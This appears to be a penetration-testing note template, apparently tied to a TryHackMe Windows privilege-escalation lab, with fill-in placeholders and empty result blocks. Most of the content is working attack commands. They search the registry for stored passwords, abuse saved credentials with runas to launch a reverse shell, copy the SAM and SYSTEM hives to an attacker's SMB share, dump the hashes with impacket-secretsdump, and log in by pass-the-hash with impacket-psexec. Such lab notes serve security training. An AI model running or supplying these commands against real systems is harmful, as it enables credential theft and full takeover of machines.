




**1- Registry**

The registry can be searched for keys and values that contain the word "password":
```powershell
reg query HKLM /f password /t REG_SZ /s
```
results:
```powershell

```

If you want to save some time, query this specific key to find admin(administrator) AutoLogon credentials:
```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```
results:
```powershell

```

****
On Kali, use the one of the following commands to spawn a command prompt running with the system privileges:
```powershell
impacket-psexec <% tp.frontmatter["VHOST"] %>/<% tp.frontmatter["domain-username"] %>:<% tp.frontmatter["domain-password"] %>@<% tp.frontmatter["RHOSTS"] %>
```

results:
```powershell

```
**2- Saved Creds**



List any saved credentials:
```powershell
cmdkey /list
```
results:
```powershell

```

Note that credentials for the "admin" user are saved. If they aren't, run the C:\PrivEsc\savecred.bat script to refresh the saved credentials.

Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:
```powershell
runas /savecred /user:<% tp.frontmatter["domain-username"] %> C:\tmp\reverse.exe
```
results:
```powershell

```

**3- Security Account Manager (SAM)**



The SAM and SYSTEM files can be used to extract user password hashes. 

start SMB server on kali 
```powershell
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```
results:
```powershell

```
Find and Transfer the SAM and SYSTEM files to your Kali VM:
```powershell
# Usually %SYSTEMROOT% = C:\Windows

#%SYSTEMROOT%\repair
copy C:\Windows\Repair\SAM \\<% tp.frontmatter["LHOST"] %>\kali\
copy C:\Windows\Repair\SYSTEM \\<% tp.frontmatter["LHOST"] %>\kali\


#%SYSTEMROOT%\System32\config\RegBack\SAM
copy C:\Windows\System32\config\RegBack\SAM \\<% tp.frontmatter["LHOST"] %>\kali\
copy C:\Windows\System32\config\RegBack\SYSTEM \\<% tp.frontmatter["LHOST"] %>\kali\

#%SYSTEMROOT%\System32\config\SAM
copy C:\Windows\System32\config\SAM \\<% tp.frontmatter["LHOST"] %>\kali\
copy C:\Windows\System32\config\SYSTEM \\<% tp.frontmatter["LHOST"] %>\kali\

# check
C:\windows.old

# run the following command
#First go to c:
dir /s SAM
dir /s SYSTEM

```
results:
```powershell

```

on kali side, dump creds
```powershell
impacket-secretsdump -system SYSTEM -sam SAM local 
```
results:
```powershell

```

use the hash directly to login as system.
```powershell
impacket-psexec -hashes <% tp.frontmatter["domain-password-hash"] %> <% tp.frontmatter["domain-username"] %>@<% tp.frontmatter["RHOSTS"] %>
```
results:
```powershell

```


Reference:
[1- reverse shell generation and file transfer](5-%20Templates/04%20Post%20Exploitation/02%20Windows%20privilege%20escalation/1-%20reverse%20shell%20generation%20and%20file%20transfer.md)
[Windows PrivEsc tryhackme](6-%20Zettelkasten/Windows%20PrivEsc%20tryhackme.md)


